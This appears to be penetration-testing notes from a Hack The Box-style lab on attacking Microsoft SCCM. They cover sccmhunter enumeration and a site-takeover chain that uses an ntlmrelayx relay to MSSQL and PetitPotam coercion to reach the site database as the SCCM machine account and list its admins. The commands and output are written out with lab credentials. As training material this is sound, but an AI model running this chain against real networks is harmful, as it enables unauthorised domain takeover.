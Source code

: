 The [sccmhunter](https://github.com/garrettfoster13/sccmhunter) tool can perform multiple attack and enumeration operations. Below the find command which uses ldap to look for SCCM.

```shell-session
 proxychains4 -q python3 sccmhunter.py find -u blwasp -p Password123! -d lab.local -dc-ip 172.50.0.10
```

For results

```shell-session
python3 sccmhunter.py show -all
```

Enumerate with smb module and save PXEboot variables

```shell-session
python3 sccmhunter.py smb -u blwasp -p Password123! -d lab.local -dc-ip 172.50.0.10 -save
```

### <mark style="color:yellow;">SCCM Site Takeover</mark>

If main MSSQL server is hosted on a different server than SCCM. The SCCM server needs administrator access to the database server but with NTLM authentication its possible to relay, with SMB or MSSQL, in this case they are tricking the SCCM server to authenticate.

<details><summary>Setup impacket</summary></details>

Then start ntlmrelay

```sh
python3 examples/ntlmrelayx.py -t "mssql://172.50.0.30" -smb2support -socks
```

And coerce with PetitPotam

```sh
python3 PetitPotam.py -u BlWasp -p 'Password123!' -d 'lab.local' 10.10.14.207 172.50.0.21
```

The connect to database

```sh
proxychains4 -q python3 examples/mssqlclient.py 'LAB/SCCM01$'@172.50.0.30 -windows-auth -no-pass
```

List table with RBAC\_Admin

```shell-session
mczen@htb[/htb]# proxychains4 -q python3 examples/mssqlclient.py 'LAB/SCCM01$'@172.50.0.30 -windows-auth -no-pass
...SNIP...
SQL (LAB\SCCM01$  dbo@CM_HTB)> SELECT * FROM RBAC_Admins
 AdminID                                                      AdminSID   LogonName        DisplayName   IsGroup   IsDeleted   CreatedBy        CreatedDate   ModifiedBy       ModifiedDate   SourceSite   DistinguishedName                    AccountType   
--------   -----------------------------------------------------------   --------------   -----------   -------   ---------   --------------   -----------   --------------   ------------   ----------   ----------------------------------   -----------   
16777217   b'0105000000000005150000004b2233992a9592e9d78a99dab9040000'   LAB\sccm_admin   NULL                0           0   LAB\sccm_admin   2024-05-10 10:12:57   LAB\sccm_admin   2024-05-10 10:12:57   HTB          NULL                                        NULL   

16777222   b'0105000000000005150000004b2233992a9592e9d78a99daca040000'   LAB\rai          Rai MC              0           0   LAB\sccm_admin   2024-07-10 11:59:12   LAB\sccm_admin   2024-07-10 11:59:12   HTB          CN=Rai MC,CN=Users,DC=lab,DC=local             0
```

